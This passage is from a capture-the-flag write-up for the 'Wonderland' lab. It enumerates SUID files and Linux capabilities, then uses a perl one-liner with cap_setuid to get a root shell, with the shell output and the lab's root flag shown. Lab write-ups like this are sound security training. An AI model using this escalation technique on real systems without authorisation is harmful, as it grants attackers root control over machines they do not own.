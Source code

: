 ## Let find suid file
```bash
find / -user root -perm /4000 2>/dev/null
```
### I dont get any useful files
## Let try again
```bash
getcap -r / 2>/dev/null
```
# I got perl Capabilities here with suid 
```bash
alice@wonderland:~$ getcap -r / 2>/dev/null 
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
# 8. Let Get Root 
### Let search on gtfobin for perl Capabilities
![Screenshot from 2024-04-06 01-43-55](https://github.com/Esther7171/Wonderland/assets/122229257/cfe08d6f-8449-4d22-9aa6-5a2602edfffb)

### So let run this 
## I just modify last line of sh to bash ```perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'```
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```
```bash
hatter@wonderland:~$ whoami
hatter
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# 
```
## Boom !! 
```bash
root@wonderland:~# ls
linpeas.sh.save  password.txt
root@wonderland:~# cd /home/alice/
root@wonderland:/home/alice# cat root.txt 
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
root@wonderland:/home/alice# 
```
# 😄
